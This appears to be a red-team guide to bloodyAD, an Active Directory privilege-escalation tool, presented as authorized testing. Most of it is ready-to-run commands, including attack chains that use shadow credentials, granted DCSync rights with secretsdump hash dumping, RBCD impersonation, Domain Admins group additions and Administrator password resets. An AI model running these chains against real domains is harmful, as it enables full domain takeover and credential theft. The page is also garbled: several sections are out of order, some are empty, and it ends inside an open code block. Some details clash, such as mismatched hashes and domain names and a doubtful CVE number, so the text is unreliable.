


<!--
SEO
title:      bloodyAD Guide: Active Directory Privilege Escalation
slug:       /docs/tools/bloodyad
primary:    bloodyAD
related:    bloodyAD guide, bloodyAD tutorial, bloodyAD shadow credentials, bloodyAD dcsync,
            bloodyAD rbcd, bloodyAD add computer, bloodyAD set password,
            bloodyAD ACL abuse, bloodyAD red teaming, bloodyAD enumeration
internal:   /docs/tools/, /docs/tools/sliver, /docs/tools/ligolo-ng, /docs/kerberos/, /docs/redteam/
external:   https://github.com/CravateRouge/bloodyAD
            https://github.com/CravateRouge/bloodyAD/wiki
            https://attack.mitre.org/techniques/T1068/
-->

> **Scope:** Authorized red team / penetration testing. Maps to MITRE ATT&CK [T1068](https://attack.mitre.org/techniques/T1068/) (Exploitation for Privilege Escalation), [T1098](https://attack.mitre.org/techniques/T1098/) (Account Manipulation), and [T1558](https://attack.mitre.org/techniques/T1558/) (Steal or Forge Kerberos Tickets). Covers the current bloodyAD release (CLI `bloodyAD`).

## Introduction

bloodyAD is an Active Directory privilege-escalation framework by CravateRouge. It performs targeted LDAP calls against a domain controller to abuse AD privesc paths — shadow credentials, [RBCD](/docs/kerberos/delegation/rbcd/), [DCSync](/docs/redteam/credential-dumping/), ACL/owner manipulation, computer/user creation, password resets, UAC flag flips, and DNS record tampering — all from a single Python CLI. Unlike tools that only enumerate, bloodyAD can both read AD state and modify it, so it spans the whole kill-chain from foothold to Domain Admin.

It supports cleartext passwords, pass-the-hash, [pass-the-ticket](/docs/kerberos/ticket-attacks/pass-the-ticket/) (ccache/kirbi/keytab), and certificate (PEM/PFX) authentication, and binds to LDAP over TLS or plaintext — including sensitive operations without requiring LDAPS. It is built on skelsec's MSLAP library and is designed to work transparently through a SOCKS proxy, which pairs naturally with tunneling tools like [Ligolo-ng](/docs/tools/ligolo-ng/).

The CLI is organized into five top-level command categories: `add` (create objects, grant rights, abuse delegation), `get` (enumerate objects, ACLs, trusts, DNS, BloodHound data), `set` (modify attributes, ownership, passwords, restore deleted objects), `remove` (undo grants, delete objects), and `msldap` (raw MSLAP wrappers for lower-level operations like shadow credential extraction, GMSA reads, and certificate enumeration). Every action is one command; no scripting required.

**Summary**

- bloodyAD = AD privesc swiss army knife; reads and writes AD state via LDAP.
- Auth: password, hash, Kerberos (ccache/kirbi/keytab), certificate (PEM/PFX).
- Top-level commands: `add`, `get`, `set`, `remove`, `msldap`. One command per action.

---
## Architecture



bloodyAD is a single Python process that authenticates to a domain controller's LDAP service (optionally over TLS) and issues the specific directory modifications each action requires. For shadow credentials and PKINIT, it also talks to the DC's Kerberos endpoint. There is no server component — you run the CLI from your attack box or through a SOCKS proxy that can reach the DC.

**Summary**

- Single CLI process → DC LDAP (optionally TLS) → AD database.
- Kerberos endpoint used for shadow-credential PKINIT. Works through a SOCKS proxy.

---

## Lab Environment

A single-domain AD lab. The attacker reaches the DC directly or through a tunnel; one low-priv user (`jane.doe`) is the foothold; the goal is Domain Admin.



| Host | OS | Network | Role |
|------|-----|---------|------|
| Kali | Linux | 10.10.14.62 | Attacker, runs bloodyAD |
| DC01 | Windows Server | 172.16.1.15 (internal) | Domain controller, radiant.local |
| jane.doe | AD user | — | Low-priv foothold credential |
| Administrator | AD user | — | Goal: Domain Admin |


Swap the IPs and domain for your own lab. Commands below use `radiant.local` / `172.16.1.15` / `jane.doe` so you can copy-paste and adapt.


**Summary**

- One DC (radiant.local), one low-priv user (jane.doe), goal = Administrator. Reach via direct LDAP or a SOCKS tunnel.

---

## Installing bloodyAD

A Python package is published on PyPI.

```bash
# Install from PyPI (recommended).
pip install bloodyAD

# Or clone and install from source.
git clone --depth 1 https://github.com/CravateRouge/bloodyAD
cd bloodyAD && pip install .

# Verify.
bloodyAD -h
```

`pip install bloodyAD` pulls the package and its dependencies (Python 3, MSLAP, dnspython). The binary is named `bloodyAD` (no `.py` in the current release). `bloodyAD -h` prints the global arguments and the five top-level command categories.

Expected top-level help:

``` {linenos=inline}
usage: bloodyAD [-h] [-d DOMAIN] [-u USERNAME] [-p PASSWORD] [-k [KERBEROS ...]]
                [-f {b64,hex,aes,rc4,default}] [-c [CERTIFICATE]] [-s] -H HOST
                [-i DC_IP] [--dns DNS] [-t TIMEOUT] [--gc] [-v {...}] [--json]
                {add,get,msldap,remove,set} ...
```

[Screenshot: bloodyAD -h output]


If you operate through a SOCKS proxy (e.g. Ligolo-ng or Chisel), set `proxychains` in front of the command, or set the `ALL_PROXY`/`HTTP_PROXY` environment variable — bloodyAD honors system proxy settings.


**Summary**

- `pip install bloodyAD`; binary is `bloodyAD` (no `.py`). Dependencies: Python 3, MSLAP, dnspython.
- Works through a SOCKS proxy for internal-DC engagements.

---

## Authentication Methods

bloodyAD authenticates via the global flags `-d`, `-u`, `-p`, `-k`, `-c`, `-f`, `-s`. The combination you choose selects the auth mechanism.

### NTLM (password or hash): the default

```bash
# Cleartext password.
bloodyAD -d radiant.local -u jane.doe -p 'Password123!' -H 172.16.1.15 get object ''

# Pass-the-hash (LM:NTHASH; LM can be empty).
bloodyAD -d radiant.local -u jane.doe -p :70016778cb0524c799ac25b439bd6a31 -H 172.16.1.15 get object ''
```

`-p` selects NTLM. A cleartext string is the password; `:2B576ACBE6BCFDA7294D6BD18041B8FE` is a pass-the-hash (empty LM, NT hash). If `-p` is omitted entirely, it triggers integrated Windows authentication (SSPI) when credentials are stored in the session.

### Kerberos

```bash
# Kerberos with a password (requests a TGT).
bloodyAD -d radiant.local -u jane.doe -p 'Password123!' -k -H DC01.radiant.local get object ''

# Kerberos with an AES or RC4 key.
bloodyAD -d radiant.local -u jane.doe -p <key> -f aes -k -H DC01.radiant.local get object ''
bloodyAD -d radiant.local -u jane.doe -p <key> -f rc4 -k -H DC01.radiant.local get object ''

# Pass-the-ticket (ccache/kirbi/keytab).
bloodyAD -d radiant.local -k ccache=ticket.ccache -H DC01.radiant.local get object ''
bloodyAD -d radiant.local -k kirbi=ticket.kirbi -H DC01.radiant.local get object ''
bloodyAD -d radiant.local -k keytab=ticket.keytab -H DC01.radiant.local get object ''
```

`-k` enables Kerberos. With `-p` it requests a TGT from the password; with `-f aes`/`-f rc4` it uses a key. Without `-p` it loads a ticket file via `-k <type>=<path>`.


For Kerberos you **must** set the DC hostname in `--host`, not its IP — Kerberos is host-based. If DNS won't resolve, provide the IP in `--dc-ip` and keep the hostname in `--host`.


### Certificate (PKINIT / Schannel)

```bash
# Schannel: key and cert in separate files.
bloodyAD -d radiant.local -c Administrator.key:Administrator.crt -H 172.16.1.15 get object ''

# Schannel: concatenated PEM (key + cert in one file).
bloodyAD -d radiant.local -c :Administrator.pem -H 172.16.1.15 get object ''

# PKINIT (Kerberos over cert) — combine -c with -k.
bloodyAD -d radiant.local -c Administrator.pfx -k -H DC01.radiant.local get object ''
```

`-c key:cert` selects Schannel; `-c :pem` when key+cert are concatenated. With `-k` also set, the cert is used for PKINIT (Kerberos). If the PFX is password-protected, supply it in `-p`.

### LDAPS

Add `-s` to use LDAP over TLS (port 636). bloodyAD supports sensitive operations without LDAPS by default; only add `-s` if the DC enforces TLS.

| Auth method | Flag pattern | When to use |
|-------------|-------------|-------------|
| NTLM (password) | `-u -p 'pw'` | Default, simplest |
| NTLM (pass-the-hash) | `-u -p :NTHASH` | Have only the NT hash |
| Kerberos (password) | `-u -p 'pw' -k` | Need Kerberos tickets / avoid NTLM |
| Kerberos (key) | `-u -p <key> -f aes\|rc4 -k` | Have an AES/RC4 key |
| Pass-the-ticket | `-k ccache=.. \| kirbi=.. \| keytab=..` | Have a TGT/ST from another tool |
| Certificate (Schannel) | `-c key:cert` | Have a stolen/enrolled cert |
## Enumeration with `get`

`get` reads AD state without modifying it. The subcommands cover objects, children, search, trusts, DNS, group membership, BloodHound data, and writable-object discovery.

### `get object`: attributes of one object

```bash
# rootDSE (pass an empty target).
bloodyAD -d radiant.local -u jane.doe -p 'Password123!' -H 172.16.1.15 get object ''

# Domain functional level.
bloodyAD ... get object 'DC=bloody,DC=lab' --attr msDS-Behavior-Version

# UserAccountControl flags (is the account locked/disabled?).
bloodyAD ... get object jane.doe --attr userAccountControl

# Read a GMSA password (if you have read access).
bloodyAD ... get object 'gmsaAccount$' --attr msDS-ManagedPassword

# Read a LAPS password (if you have read access).
bloodyAD ... get object 'COMPUTER$' --attr ms-Mcs-AdmPwd

# Group members.
bloodyAD ... get object "Domain Admins" --attr member
```

`get object <target>` returns LDAP attributes for the target (sAMAccountName, DN, or SID). An empty `''` target returns the rootDSE. `--attr <a>,<b>` restricts attributes; `--resolve-sd` resolves security descriptors into readable permissions; `--raw` returns unformatted/base64 values.

### `get children`: list child objects

```bash
# All users.
bloodyAD ... get children --otype useronly

# All computers.
bloodyAD ... get children --otype computer

# All trusted domains.
bloodyAD ... get children --otype trustedDomain
```

`get children --otype <type>` lists child objects of the domain (default) or a `--target`. `--direct` fetches only direct children. Object types include `user`, `computer`, `group`, `trustedDomain`, `organizationalUnit`, `container`, `groupPolicyContainer`, `msDS-GroupManagedServiceAccount`.

### `get search`: LDAP filter queries

```bash
# Kerberoastable accounts (have an SPN).
bloodyAD ... get search --filter '(&(samAccountType=805306368)(servicePrincipalName=*))' --attr sAMAccountName

# AS-REP-roastable accounts (pre-auth not required, not disabled).
bloodyAD ... get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName
```

`get search --filter <LDAP filter>` runs an arbitrary LDAP query. `--base <DN>` sets the search base; `--attr` restricts attributes; `-c <OID>` adds LDAP controls (e.g. tombstone/deleted-object controls `1.2.840.113556.1.4.2064`).

### `get trusts`: domain trust tree

```bash
bloodyAD ... get trusts
```

Prints trusts as an ASCII tree. `A -> B` means A can auth on B; `A -< B` means B can auth on A; `A -<> B` is bidirectional.

### `get dnsDump`: AD-integrated DNS records

```bash
# All DNS records the user can read.
bloodyAD ... get dnsDump

# One zone only.
bloodyAD ... get dnsDump --zone radiant.local

# Check for an ADIDNS wildcard (spoofing opportunity).
bloodyAD ... get dnsDump | sed -n '/[^\\n]*\\*/,/^$/p'
```

`get dnsDump` dumps AD-integrated DNS records readable by the current user. `--no-detail` excludes system records (`_ldap`, `_kerberos`, `@`); `--transitive` follows trusts.

### `get membership`: group membership of a target

```bash
bloodyAD ... get membership jane.doe
bloodyAD ... get membership jane.doe --no-recurse
```

Returns SIDs and sAMAccountNames of all groups the target belongs to. `--no-recurse` shows only direct memberships.

### `get writable`: objects you can modify

## Adding Objects and Granting Rights with `add`

`add` creates objects and grants the rights that unlock privesc paths. Each subcommand is one action.

### `add computer`: create a computer account

```bash
bloodyAD ... add computer EVIL 'P@ssw0rd!'
# With a specific OU and a dynamic (auto-expiring) object.
bloodyAD ... add computer EVIL 'P@ssw0rd!' --ou 'CN=Computers,DC=bloody,DC=lab' --lifetime 3600
```

`add computer <hostname> <newpass>` creates a machine account (no trailing `$` needed). `--ou` places it in a specific OU; `--lifetime` (seconds) creates it as a dynamic object that auto-deletes. Useful when `MachineAccountQuota` > 0 (check with `get object 'DC=bloody,DC=lab' --attr ms-DS-MachineAccountQuota`).


Provide the domain FQDN in `-d` (e.g. `radiant.local`), not the NetBIOS name. A short domain triggers LDAP error `problem 1005 (CONSTRAINT_ATT_TYPE) ... dNSHostName`.


### `add user`: create a user account

```bash
bloodyAD ... add user backdoor 'P@ssw0rd!'
bloodyAD ... add user backdoor 'P@ssw0rd!' --ou 'CN=Users,DC=bloody,DC=lab'
```

`add user <sAMAccountName> <newpass>` creates a user. Requires `CREATE_CHILD` on the chosen OU. Pair with `add groupMember` to grant rights, or `add uac` to set flags.

### `add shadowCredentials`: Key Credential Link → PKINIT → TGT/hash

```bash
# Add a Key Credential to the target, retrieve a TGT and NT hash.
bloodyAD ... add shadowCredentials Administrator --path ./admin.ccache
```

`add shadowCredentials <target>` writes a `msDS-KeyCredentialLink` value onto the target, then uses PKINIT to request a TGT (and derive the NT hash). `--path` sets where the TGT (ccache) or PFX (if PKINIT fails) is written. This is the primary alternative to [Kerberoasting](/docs/kerberos/kerberoast/) when you have `GenericWrite`/`WriteProperty` on a target but no SPN.


Shadow credentials require a DC running Windows Server 2016 or later (`msDS-KeyCredentialLink` needs the 2016 schema). Verify with `get object ''` and check `domainControllerFunctionality >= 7`, or query the DC's `msDS-Behavior-Version`. PKINIT also needs AD CS or a CA configured.


### `add rbcd`: Resource-Based Constrained Delegation

```bash
# Allow EVIL$ to impersonate users on DC01 (requires Write on DC01's msDS-AllowedToActOnBehalfOfOtherIdentity).
bloodyAD ... add rbcd DC01$ EVIL$
```

`add rbcd <target> <service>` writes the service account's SID into the target's `msDS-AllowedToActOnBehalfOfOtherIdentity`. After this, you can impersonate any user on the target from the service account (via [S4U2Self](/docs/kerberos/delegation/s4u2self-abuse/)/S4U2Proxy). Requires Windows Server 2012+ and Write permission on the target's `msDS-AllowedToActOnBehalfOfOtherIdentity`.

### `add dcsync`: grant DCSync rights

```bash
# Grant jane.doe the right to DCSync (requires WriteDacl on the domain object).
bloodyAD ... add dcsync jane.doe
```

`add dcsync <trustee>` adds the `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` extended rights to the trustee. After this, the trustee can run `secretsdump`/`impacket-ntdsutil`-style DCSync. Requires owning the domain object or having `WriteDacl` on it.

### `add genericAll`: grant full control

```bash
# Give jane.doe full control over the Administrator account.
bloodyAD ... add genericAll Administrator jane.doe
```

`add genericAll <target> <trustee>` grants the trustee `GENERIC_ALL` on the target and its descendants. Requires owning the object or having `WriteDacl`. Once granted, the trustee can reset the target's password, add it to groups, etc.

### `add groupMember`: add to a group

```bash
# Add jane.doe to Domain Admins.
bloodyAD ... add groupMember "Domain Admins" jane.doe
# Add a computer account to a group.
bloodyAD ... add groupMember "Domain Computers" EVIL$
```

`add groupMember <group> <member>` adds a user/computer/group to a group. Supports foreign (cross-domain) members. This is the cleanest privesc finisher once you have `WriteMember` on a privileged group.

### `add uac`: flip UserAccountControl flags

```bash
# Mark a user as not requiring Kerberos pre-auth (enables AS-REP roasting).
bloodyAD ... add uac svc_sql -f DONT_REQ_PREAUTH
# Set a password to never expire.
bloodyAD ... add uac backdoor -f DONT_EXPIRE_PASSWORD
```

`add uac <target> -f <FLAG>` adds UserAccountControl property flags. `-f` can be repeated for multiple flags. Common flags: `DONT_REQ_PREAUTH` (AS-REP roast), `DONT_EXPIRE_PASSWORD`, `TRUSTED_FOR_DELEGATION`, `NOT_DELEGATED`. Reverse with `remove uac`.

### `add badSuccessor`: DMSA abuse (CVE-2025-33073)
## Modifying Objects with `set`

`set` changes attributes, ownership, and passwords, and restores deleted objects.

### `set password`: reset a user/computer password

```bash
# Reset Administrator's password (you need the right, or the old password).
bloodyAD ... set password Administrator 'N3wP@ss!'

# Change a user's password knowing the old one (no special right needed).
bloodyAD ... set password jane.doe 'N3wP@ss!' --oldpass 'Password123!'
```

`set password <target> <newpass>` changes the password. `--oldpass` is mandatory if you don't have the "change password" permission on the target — and lets you reset an expired/locked account's password without elevated rights. The target can be a user or a computer (machine account) reset.

### `set owner`: change object ownership

```bash
# Make jane.doe the owner of the Administrator account.
bloodyAD ... set owner Administrator jane.doe
```

`set owner <target> <owner>` sets the target's owner. `WriteOwner` is required. With only `WRITE_OWNER` you can set **yourself** as owner; setting an arbitrary owner requires `DS-Set-Owner` on the domain or `SeRestorePrivilege`. Owning an object lets you then `add genericAll` to grant yourself full control.

### `set object`: add/replace/delete an attribute

```bash
# Add an SPN to a user (makes them kerberoastable).
bloodyAD ... set object svc_sql servicePrincipalName -v HOST/svc_sql -v HOST/svc_sql.radiant.local

# Delete an attribute (omit -v).
bloodyAD ... set object svc_sql servicePrincipalName
```

`set object <target> <attribute> -v <value>` adds the value if absent, replaces it if present, or deletes it if no `-v` is given. `-v` can repeat for multi-valued attributes. `--raw` sends values without encoding; `--b64` (with `--raw`) expects base64.

### `set restore`: restore a deleted object

```bash
# Restore a tombstoned object to its original location.
bloodyAD ... set restore "CN=jane.doe\\0ADEL:...,CN=Deleted Objects,DC=bloody,DC=lab"
# Restore with a new name and parent.
bloodyAD ... set restore <deleted-DN> --newName jane.doe --newParent "CN=Users,DC=bloody,DC=lab"
```

`set restore <target>` restores a deleted (tombstoned) object. `--newName` renames it (and updates sAMAccountName/UPN/SPN); `--newParent` moves it. Useful to recover an account a defender deleted, or to resurrect a privileged account from the recycle bin.

[Screenshot: set password and set owner output]

**Summary**

- `set password` (with or without `--oldpass`); `set owner` (WriteOwner); `set object` (attribute edits).
- `set restore` recovers tombstoned objects; pair with `add genericAll`/`add groupMember` for privesc.

---

## Undoing Changes with `remove`

`remove` undoes grants and deletes objects — essential for clean engagement teardown.
## The `msldap` Category: Raw Wrappers

`msldap` exposes skelsec's MSLAP library directly for lower-level operations not covered by `add`/`get`/`set`. Most operators use only a few of these.

```bash
# Extract a shadow credential (Key Credential Link) to a file.
bloodyAD ... msldap shadowcred Administrator

# Read a GMSA password.
bloodyAD ... msldap gmsa 'gmsaAccount$'

# Read LAPS passwords for a target.
bloodyAD ... msldap laps
bloodyAD ... msldap lapstarget <computer>

# Enumerate ADCS: CAs, templates, enrollment services.
bloodyAD ... msldap aiacas
bloodyAD ... msldap rootcas
bloodyAD ... msldap certtemplates --name User
bloodyAD ... msldap enrollmentservices

# Check for the BadSuccessor vulnerability.
bloodyAD ... msldap badsuccessor_check

# AD info, schema, GPOs, SPNs.
bloodyAD ... msldap adinfo
bloodyAD ... msldap allschemaentry
bloodyAD ... msldap gpos
bloodyAD ... msldap spns <user>

# Modify any attribute directly.
## Practical Attack Chains

Each chain shows the bloodyAD commands from a low-priv foothold to Domain Admin. The credential block `-d radiant.local -u jane.doe -p 'Password123!' -H 172.16.1.15` is abbreviated as `bloodyAD ...`.

### Chain 1 — GenericWrite → Shadow Credentials → DA

You have `GenericWrite` (or `WriteProperty` on `msDS-KeyCredentialLink`) on the Administrator account.

```bash
# 1. Add a Key Credential to Administrator; PKINIT returns a TGT + NT hash.
bloodyAD ... add shadowCredentials Administrator --path ./admin.ccache
#    → ./admin.ccache holds a TGT for Administrator.

# 2. Use the TGT to request a service ticket for the DC (cifs/DC01) or run DCSync.
#    With the TGT loaded, authenticate to the DC and dump hashes:
KRB5CCNAME=./admin.ccache impacket-secretsdump -k -no-pass DC01.radiant.local
#    → NTLM hashes for every account, including krbtgt.
```

`add shadowCredentials` writes the key credential and immediately attempts PKINIT; the `--path` ccache is the TGT. Load it with `KRB5CCNAME` and run any Kerberos-aware tool (`impacket-* -k`, `evil-winrm`, `netexec`).

### Chain 2 — WriteDacl on the domain → DCSync → DA

You have `WriteDacl` on the domain object (e.g. from `get writable`).

```bash
# 1. Grant yourself DCSync rights.
bloodyAD ... add dcsync jane.doe

# 2. DCSync all hashes with impacket.
impacket-secretsdump 'radiant.local/jane.doe:Password123!@172.16.1.15'

# 3. Pass-the-hash to DC01 as Administrator.
evil-winrm -i 172.16.1.15 -u Administrator -H <admin-nt-hash>

# 4. Teardown: remove the DCSync right.
bloodyAD ... remove dcsync jane.doe
```

`add dcsync` is the cleanest single-step path when you can edit the domain ACL. Always `remove dcsync` at teardown — a lingering grant is a glaring artifact.

### Chain 3 — Write on a target's RBCD attribute → impersonate → DA

You have `Write` on a target's `msDS-AllowedToActOnBehalfOfOtherIdentity` (e.g. on a DC or a SQL server).

```bash
# 1. (One-time) Create a computer account you control.
bloodyAD ... add computer EVIL 'P@ssw0rd!'

# 2. Grant EVIL$ the right to impersonate users on the target.
bloodyAD ... add rbcd DC01$ EVIL$

# 3. Request an S4U ticket: impersonate Administrator on DC01 via EVIL$.
#    (Use impacket's getST or rbcd.py, bloodyAD sets the ACL; another tool performs the S4U.)
getST.py -spn cifs/DC01.radiant.local -impersonate Administrator 'radiant.local/EVIL$:P@ssw0rd!'

# 4. Use the resulting TGT for cifs/DC01 to access the DC as Administrator.

# 5. Teardown.
bloodyAD ... remove rbcd DC01$ EVIL$
bloodyAD ... remove object EVIL$
```

bloodyAD sets the delegation ACL; the S4U2Self/S4U2Proxy ticket request uses impacket (`getST.py`) or Rubeus. This is the standard RBCD chain when direct egress to the DC is available.

### Chain 4 — WriteMember on Domain Admins → DA

You have `WriteMember` (or `GenericAll`) on the `Domain Admins` group.

```bash
# 1. Add your user to Domain Admins.
bloodyAD ... add groupMember "Domain Admins" jane.doe

# 2. Confirm.
bloodyAD ... get membership jane.doe

# 3. Authenticate as jane.doe (now a Domain Admin) to the DC.
evil-winrm -i 172.16.1.15 -u jane.doe -p 'Password123!'

# 4. Teardown: remove yourself from the group.
bloodyAD ... remove groupMember "Domain Admins" jane.doe
```

The simplest chain when group-write is available. `add groupMember` + immediate auth + `remove groupMember` keeps the window small.
## Troubleshooting

| Symptom | Likely cause | Fix |
|---------|-------------|-----|
| `problem 1005 (CONSTRAINT_ATT_TYPE) ... dNSHostName` | Short/NetBIOS domain in `-d` | Use the FQDN: `-d radiant.local`, not `-d bloody` |
| Kerberos auth fails; NTLM works | Used IP in `--host` for Kerberos | Use the DC hostname in `--host`, IP in `--dc-ip` |
| `add shadowCredentials` returns no TGT | DC < 2016, or no AD CS/CA for PKINIT | Verify `domainControllerFunctionality >= 7`; confirm AD CS; fall back to `msldap shadowcred` extraction |
| `add dcsync` errors with permission denied | No `WriteDacl` on the domain object | Find a path to domain-write via BloodHound; `get writable` to confirm |
| `add computer` fails | `MachineAccountQuota` is 0 | `get object 'DC=bloody,DC=lab' --attr ms-DS-MachineAccountQuota`; if 0, use an existing computer write path |
| LDAPS bind fails | DC has no cert / `-s` not needed | Drop `-s`; bloodyAD supports sensitive ops over plaintext LDAP |
| Cert auth fails (Schannel) | May 2023 LDAP SASL EXTERNAL bug | Update DC to Oct 2023+ (KB5031407); use PKINIT (`-c pfx -k`) as alternative |
| `get object ''` returns nothing | Empty target not quoted | Quote it: `get object ''` |
| `--resolve-sd` shows unresolved SIDs | Foreign/trust SIDs not supported | Cross-domain SIDs won't resolve; check the trust manually |
| Command hangs through a tunnel | SOCKS proxy not set | `proxychains bloodyAD ...` or set `ALL_PROXY` |

### Detailed fixes

**Short domain causes dNSHostName error.** `add computer` writes `dNSHostName = host.fqdn`. If `-d` is the NetBIOS name, the FQDN is wrong and the DC rejects the constraint. Always pass the FQDN (`-d radiant.local`).

**Shadow credentials silently fail.** Two prerequisites: the DC schema must be 2016+ (`msDS-KeyCredentialLink` only exists then), and PKINIT needs AD CS or a CA. Check `get object ''` for `domainControllerFunctionality` (≥7 = 2016). If PKINIT fails, `add shadowCredentials` still writes the key credential — extract it with `msldap shadowcred` and forge a ticket elsewhere.

**Kerberos hostname requirement.** Kerberos service tickets are host-bound. `-H 172.16.1.15` (an IP) with `-k` fails. Use `-H DC01.radiant.local -i 172.16.1.15` (hostname + `--dc-ip`).


If `add dcsync`/`add genericAll`/`set owner` return "insufficient rights," you lack the needed ACE on the target. Don't retry blindly — re-enumerate with `get object <target> --resolve-sd` to confirm your exact rights, and find a path (BloodHound) to the required permission first.


**Summary**

- Top buckets: short domain, Kerberos hostname, shadow-cred prerequisites, insufficient ACL rights.
- `get object <target> --resolve-sd` is the definitive "what can I do here" check.

---

## Common Mistakes

- **Using the NetBIOS domain in `-d`.** Breaks `add computer`/`add user`. Fix: use the FQDN.
- **IP in `--host` with Kerberos.** Fails. Fix: hostname in `--host`, IP in `--dc-ip`.
- **Skipping `get writable`.** Guessing ACL paths wastes time. Fix: run `get writable` first, then `get object --resolve-sd`.
- **Shadow creds on a 2012 DC.** `msDS-KeyCredentialLink` doesn't exist. Fix: verify schema; use another path.
- **Granting rights without tearing down.** `add dcsync`/`genericAll`/`groupMember` leave artifacts. Fix: mirror every `add` with `remove`.
- **Resetting a password you can't restore.** Locks the account out for the real user. Fix: record the original hash/password; restore at teardown.
- **Forgetting `--oldpass` when you lack the right.** `set password` fails. Fix: add `--oldpass` (works without elevated rights).
- **Trusting `get bloodhound` for full coverage.** The built-in collector is incomplete (no ADCS ESC). Fix: use SharpHound for full BloodHound data.
- **Running without a SOCKS proxy when the DC is internal.** Connection fails. Fix: `proxychains` or `ALL_PROXY`.

**Summary**

- FQDN in `-d`; hostname in `--host` for Kerberos; `get writable` first.
- Always mirror `add` with `remove`; record original passwords for restore; use SharpHound for full coverage.

---

## Best Practices

### Setup

- Install via `pip install bloodyAD` for the latest release.
- Operate through a SOCKS proxy (Ligolo-ng/Chisel) when the DC is internal; set `proxychains` or `ALL_PROXY`.
- Keep a credential/key/cert inventory so you can pick the right auth method per action.

### Enumeration first

- Always start with `get object ''` (rootDSE), `get writable`, and `get trusts`.
- Use `get object <target> --resolve-sd` to confirm exact rights before any `add`/`set`.
- For full BloodHound data, run SharpHound (not `get bloodhound`) and ingest into BloodHound CE.

### Operations

- Prefer the least-permanent path: `add groupMember` (reversible) over `set password` (disruptive).
- For shadow credentials, verify the DC schema/CA first; have PKINIT tooling ready.
- For RBCD, create a dedicated computer account for the chain; delete it at teardown.
- Document every `add`/`set` in an engagement log for clean teardown.

### Teardown

```bash
# Remove every grant you added (mirror the add commands).
bloodyAD ... remove dcsync jane.doe
bloodyAD ... remove genericAll Administrator jane.doe
bloodyAD ... remove groupMember "Domain Admins" jane.doe
bloodyAD ... remove rbcd DC01$ EVIL$
bloodyAD ... remove shadowCredentials Administrator
bloodyAD ... remove uac svc_sql -f DONT_REQ_PREAUTH
# Delete objects you created.
bloodyAD ... remove object EVIL$
bloodyAD ... remove object backdoor
# Restore any password you changed (use your engagement notes for the original value).
```

[Screenshot: clean teardown output]

**Summary**

- Enumerate (`get writable`/`--resolve-sd`) before you act; prefer reversible paths.
- Document every `add`/`set`; mirror each with `remove` at teardown; restore original passwords.

---

### Chain 5 — GenericAll on Administrator → password reset → DA

You have `GenericAll` (or `Write` on the password attribute) on the Administrator account.

```bash
# 1. (Optional) Take ownership first if needed.
bloodyAD ... set owner Administrator jane.doe

# 2. Grant yourself full control.
bloodyAD ... add genericAll Administrator jane.doe

# 3. Reset the Administrator password.
bloodyAD ... set password Administrator 'N3wP@ss!'

# 4. Authenticate as Administrator.
evil-winrm -i 172.16.1.15 -u Administrator -p 'N3wP@ss!'

# 5. Teardown (restore the original password from your notes; remove the grant).
bloodyAD ... remove genericAll Administrator jane.doe
```

`set owner` → `add genericAll` → `set password` is the classic ACL-abuse escalation. Document the original password/hash and restore it at teardown.

[Screenshot: full chain 2 from add dcsync to secretsdump]

**Summary**

- GenericWrite → `add shadowCredentials` → PKINIT TGT → Kerberos tools.
- WriteDacl on domain → `add dcsync` → `secretsdump` → PTH to DC.
- RBCD write → `add rbcd` → S4U ticket → impersonate.
- Group write → `add groupMember` → auth → `remove groupMember`.
- GenericAll → `set owner` → `add genericAll` → `set password` → auth.

---
bloodyAD ... msldap modify <dn> <attribute> <value>
bloodyAD ... msldap setsd <dn> <sddl>
bloodyAD ... msldap changeowner <new_owner_sid> <target_dn>
```

`msldap shadowcred` extracts a Key Credential Link (the raw `msDS-KeyCredentialLink` value) — use when `add shadowCredentials` can't complete PKINIT but you can still read the value. `msldap gmsa`/`laps` read managed/LAPS passwords. The `certify`/`certtemplates`/`aiacas`/`rootcas` set covers ADCS enumeration; pair with Certipy for ESC exploitation. `msldap modify`/`setsd`/`changeowner` are escape hatches for raw attribute/SD edits.


`msldap` is a large surface (dozens of subcommands). Run `bloodyAD ... msldap -h` to see the full list, and `bloodyAD ... msldap <sub> -h` for any one. Use it when the higher-level `add`/`get`/`set` doesn't expose what you need.


**Summary**

- `msldap` = raw MSLAP wrappers for shadow cred extraction, GMSA/LAPS reads, ADCS enum, raw attribute/SD edits.
- `msldap shadowcred` extracts the Key Credential Link; `msldap badsuccessor_check` tests DMSA exposure.

---

```bash
# Remove DCSync rights from jane.doe.
bloodyAD ... remove dcsync jane.doe

# Remove full control you granted.
bloodyAD ... remove genericAll Administrator jane.doe

# Remove a group member.
bloodyAD ... remove groupMember "Domain Admins" jane.doe

# Remove a shadow credential you added.
bloodyAD ... remove shadowCredentials Administrator --key <key-id>

# Remove an RBCD delegation.
bloodyAD ... remove rbcd DC01$ EVIL$

# Remove a UAC flag.
bloodyAD ... remove uac svc_sql -f DONT_REQ_PREAUTH

# Delete an object you created.
bloodyAD ... remove object EVIL$

# Remove a DNS record you added.
bloodyAD ... remove dnsRecord --record evil.radiant.local
```

`remove dcsync`/`genericAll`/`groupMember`/`rbcd`/`shadowCredentials`/`uac` mirror their `add` counterparts exactly. `remove object <target>` deletes a user/computer/group/OU. `remove dnsRecord` removes a DNS record. Always run the matching `remove` for every `add` during teardown so you leave no privilege-grant artifacts behind.

**Summary**

- Every `add` grant has a matching `remove`: `dcsync`, `genericAll`, `groupMember`, `rbcd`, `shadowCredentials`, `uac`.
- `remove object` deletes objects; `remove dnsRecord` cleans DNS. Mirror `add` during teardown.

---

```bash
# Create a DMSA that assumes the privileges of a target.
